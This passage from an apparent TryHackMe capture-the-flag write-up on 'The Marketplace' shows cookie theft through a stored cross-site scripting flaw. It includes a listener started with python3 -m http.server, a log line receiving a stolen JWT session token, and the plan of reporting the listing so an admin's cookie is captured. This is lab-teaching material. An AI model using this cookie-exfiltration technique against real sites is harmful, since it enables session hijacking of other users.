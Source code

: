 Listen for request on my machine

```bash
$ python3 -m http.server
```

After hitting submit we get our cookie as request on our server

```bash
10.8.31.73 - - [18/Oct/2020 07:30:09] code 404, message File not found
10.8.31.73 - - [18/Oct/2020 07:30:09] "GET /token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoicm8iLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTYwMzAzODQ0M30.qoodJ0Jsx0aXK8NIs1g3RImqRU-VAsL7VMb8LNs_G4o HTTP/1.1" 404 -
```

So now we need some way so that admin clicks on this site and we get his/her  cookie

![/assets/images/TryHackMe/The_marketplace/Untitled%206.png](/assets/images/TryHackMe/The_marketplace/Untitled%206.png)

Report listing to admins does this.

![/assets/images/TryHackMe/The_marketplace/Untitled%207.png](/assets/images/TryHackMe/The_marketplace/Untitled%207.png)
